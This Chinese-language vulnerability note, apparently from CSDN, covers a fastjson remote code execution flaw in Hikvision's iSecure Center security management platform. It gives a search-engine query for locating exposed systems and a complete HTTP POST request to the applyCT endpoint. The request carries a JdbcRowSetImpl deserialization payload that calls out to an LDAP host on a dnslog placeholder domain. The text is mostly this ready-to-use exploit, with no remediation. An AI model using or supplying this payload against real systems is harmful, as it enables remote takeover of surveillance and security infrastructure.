 ## 漏洞名称

[海康威视](https://so.csdn.net/so/search?q=海康威视&spm=1001.2101.3001.7020)综合安防管理平台 `iSecure Center applyCT fastjson` [远程代码执行](https://so.csdn.net/so/search?q=远程代码执行&spm=1001.2101.3001.7020)

## 搜索引擎

app="HIKVISION-综合安防管理平台"

```yaml
POST /bic/ssoService/v1/applyCT HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Connection: close
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/json
Content-Length: 196

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.dnslog.cn","autoCommit":true},"hfe4zyyzldp":"="}

```

